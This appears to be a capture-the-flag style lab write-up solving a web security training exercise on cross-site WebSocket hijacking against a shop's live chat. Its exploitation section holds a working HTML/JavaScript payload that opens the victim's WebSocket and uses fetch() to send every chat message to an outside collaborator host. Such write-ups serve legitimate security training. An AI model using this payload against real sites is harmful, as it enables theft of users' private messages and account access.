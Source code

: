 # Cross-site WebSocket hijacking
# Objective
This online shop has a live chat feature implemented using WebSockets.\
To solve the lab, use the exploit server to host an `HTML/JavaScript` payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account. 

# Solution
## Analysis
On the website there is a live chat feature implemented using WebSockets.\
There is no CSRF protection in websocket handshake request.\
Every time user establishes websocket connection data from all previous interaction with chat is sent over websocket.

|![](Images/image-10.png)|
|:--:| 
| *WebSocket handshake* |

## Exploitation
Attacker can steal data send via websocket by using configuration below - user opens website, websocket connection is established automattically (no CSRF protectionns), every websocket responnse from server is sent to attacker domain.

Exploit server configuration:
```html
<!DOCTYPE html>
<html>
  <head>
    <title>WS</title>
  </head>
  <body>
    <script>
      var ws = new WebSocket('wss://0a250050034f5c9680c526690020000f.web-security-academy.net/chat');
      ws.onopen = function() {
        ws.send("READY");
      };
      ws.onmessage = function(event) {
        fetch('https://<id>.oastify.com', {
          method: 'POST',
          mode: 'no-cors',
          body: event.data
        });
      };
    </script>
  </body>
</html>
```

|![](Images/image-12.png)|
|:--:| 
| *Exploit server conniguration* |
|![](Images/image-11.png)|
| *Cross-site webSocket hijacking* |
